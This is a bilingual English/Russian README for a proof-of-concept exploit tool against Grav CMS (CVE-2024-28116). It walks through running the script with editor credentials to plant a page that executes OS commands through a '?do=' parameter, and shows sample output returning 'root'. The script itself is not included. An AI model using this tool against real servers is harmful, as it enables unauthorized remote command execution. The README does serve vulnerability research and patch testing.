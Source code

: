 
# EN
**GenGravSSTIExploit** is a PoC Python script that exploits an authenticated Server-Side Template Injection (SSTI) vulnerability in Grav CMS versions <= 1.7.44 (CVE-2024-28116). This vulnerability allows a user with editor permissions to execute OS commands on a remote server. 

**Note**: This script requires valid credentials to authenticate on the Grav CMS console.

## Features

- Authenticates with the Grav CMS admin panel using editor credentials.
- Creates a new page on the CMS to inject a payload.
- Executes OS commands remotely by leveraging the SSTI vulnerability.

## Requirements

- Python 3.x
- `requests` library (install with `pip install requests`)


## Usage

1. **Clone the Repository**
    ```bash
    git clone https://github.com/geniuszly/GenGravSSTIExploit
    cd GenGravSSTIExploit
    ```

2. **Configure Credentials**

   Edit the script to provide your Grav CMS editor credentials:
   ```python
   GRAV_USER = "youruser"
   GRAV_PASSWORD = "yourpassword"
   ```

3. **Run the Script**

   Use the following command to run the script:
   ```bash
   python GenGravSSTIExploit.py -t <TARGET_URL> -p <PORT>
   ```
   - `<TARGET_URL>`: Target URL in the format `http[s]://hostname`.
   - `<PORT>`: Port number (default is 80).

   **Example:**
   ```bash
   python GenGravSSTIExploit.py -t http://example.com -p 8080
   ```

4. **Interact with the Exploit**

   If the exploit is successful, you will be given a URL where you can execute OS commands:
   ```
   [+] RCE payload injected. Visit the malicious page: http://example.com:8080/poc_<ID>?do=<command>
   ```

## Example output
 ```bash
   python GenGravSSTIExploit.py -t http://example.com -p 8080
   ```
The script will perform each step, providing you with updates through the terminal. Here is what you might see:
```
2024-10-02 12:00:01 - INFO - Проверка целевого URL...
2024-10-02 12:00:02 - INFO - Получение session cookie и login-nonce...
2024-10-02 12:00:03 - INFO - Попытка аутентификации в Grav CMS...
2024-10-02 12:00:04 - INFO - Доступ к админ-панели после аутентификации...
2024-10-02 12:00:05 - INFO - Создание новой страницы...
2024-10-02 12:00:06 - INFO - Получение form-nonce и unique_form_id...
2024-10-02 12:00:07 - INFO - Инъекция RCE-полезной нагрузки...
2024-10-02 12:00:08 - INFO - [+] Инъекция RCE успешна. Перейдите по ссылке: http://example.com:8080/poc_4T7B?do=<command>
```
After the script completes, you will see a message with the link to the injected page. You can visit this link to execute OS commands
```
http://example.com:8080/poc_4T7B?do=whoami
```
Visiting the URL with the specified command will display the output directly on the page:
```
Cmd-Output:
root
```

## Disclaimer

This tool is intended for educational purposes only. Use it responsibly and only on systems where you have explicit permission. The author is not responsible for any misuse or damage caused by this script.


# RU
**GenGravSSTIExploit** — это PoC скрипт на Python , эксплуатирующий аутентифицированную уязвимость SSTI (Server-Side Template Injection) в Grav CMS версий <= 1.7.44 (CVE-2024-28116). Эта уязвимость позволяет пользователю с правами редактора выполнять команды ОС на удаленном сервере.

**Примечание**: Скрипт требует действительных учетных данных для авторизации в админ-панели Grav CMS.


## Особенности

- Аутентификация в админ-панели Grav CMS с использованием учетных данных редактора.
- Создание новой страницы на CMS для инъекции полезной нагрузки.
- Выполнение команд ОС удаленно, используя уязвимость SSTI.

## Требования

- Python 3.x
- Библиотека `requests` (установить через `pip install requests`)

## Использование

1. **Клонируйте репозиторий**
    ```bash
    git clone https://github.com/geniuszly/GenGravSSTIExploit
    cd GenGravSSTIExploit
    ```

2. **Настройте учетные данные**

   Отредактируйте скрипт и введите учетные данные редактора Grav CMS:
   ```python
   GRAV_USER = "youruser"
   GRAV_PASSWORD = "yourpassword"
   ```

3. **Запустите скрипт**

   Используйте следующую команду для запуска скрипта:
   ```bash
   python GenGravSSTIExploit.py -t <TARGET_URL> -p <PORT>
   ```
   - `<TARGET_URL>`: Целевой URL в формате `http[s]://hostname`.
   - `<PORT>`: Номер порта (по умолчанию 80).

   **Пример:**
   ```bash
   python GenGravSSTIExploit.py -t http://example.com -p 8080
   ```

4. **Взаимодействие с эксплойтом**

   Если эксплойт прошел успешно, вы получите URL, где сможете выполнить команды ОС:
   ```
   [+] Инъекция RCE успешна. Перейдите по ссылке: http://example.com:8080/poc_<ID>?do=<command>
   ```

## Пример вывода
 ```bash
   python GenGravSSTIExploit.py -t http://example.com -p 8080
   ```
Скрипт будет выполнять каждый шаг, предоставляя вам обновления через терминал. Вот что вы можете увидеть:
```
2024-10-02 12:00:01 - INFO - Проверка целевого URL...
2024-10-02 12:00:02 - INFO - Получение session cookie и login-nonce...
2024-10-02 12:00:03 - INFO - Попытка аутентификации в Grav CMS...
2024-10-02 12:00:04 - INFO - Доступ к админ-панели после аутентификации...
2024-10-02 12:00:05 - INFO - Создание новой страницы...
2024-10-02 12:00:06 - INFO - Получение form-nonce и unique_form_id...
2024-10-02 12:00:07 - INFO - Инъекция RCE-полезной нагрузки...
2024-10-02 12:00:08 - INFO - [+] Инъекция RCE успешна. Перейдите по ссылке: http://example.com:8080/poc_4T7B?do=<command>
```
После завершения работы скрипта вы увидите сообщение со ссылкой на внедренную страницу. Вы можете перейти по этой ссылке для выполнения команд:
```
http://example.com:8080/poc_4T7B?do=whoami
```
Посещение URL-адреса с помощью указанной команды приведет к отображению вывода прямо на странице:
```
Cmd-Output:
root
```

## Отказ от ответственности

Этот инструмент предназначен только для образовательных целей. Используйте его ответственно и только на системах, где у вас есть явное разрешение. Автор не несет ответственности за любое злоупотребление или ущерб, вызванный этим скриптом.
